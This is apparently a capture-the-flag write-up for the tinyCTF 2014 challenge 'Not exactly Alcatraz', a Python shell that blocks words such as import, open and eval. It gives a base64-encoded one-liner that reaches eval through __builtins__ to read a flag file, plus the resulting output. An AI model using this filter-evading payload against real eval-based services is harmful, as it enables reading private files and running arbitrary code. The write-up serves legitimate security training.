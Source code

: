 # tinyCTF 2014: Not exactly Alcatraz

**Category:** Exploitable
**Points:** 200
**Description:**

> [Exploit this](pwn200.zip)
> Over here: `nc 54.69.118.120 6000`
> Flag is in `/home/pybaby/flag.txt`

## Write-up

Let’s unzip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
```

The script evaluates any Python code we enter, as long as it doesn’t contain the blacklisted words `import`, `open`, `flag`, `eval`, or `exec`. We need to find a way to break out of the sandbox and still read files.

One possible solution is the following:

```python
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
```

`__builtins__.__dict__['ZXZhbA=='.decode('base64')]` is equivalent to `eval`, and `'b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64')` is `open('/home/pybaby/flag.txt').read()`. This prints the contents of the `/home/pybaby/flag.txt` file:

```
baby@sics:~$
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
flag{python_sandboxing:_harder_than_teaching_your_mom_dota}

this is bad.

BitK vous fait des gros bisous

baby@sics:~$
```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.

## Other write-ups and resources

* <http://sugarstack.io/tinyctf-exp200/>
* <http://poerhiza.github.io/ctf/2014/10/05/tinyCTF-write_ups-not_exactly_alcatraz/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
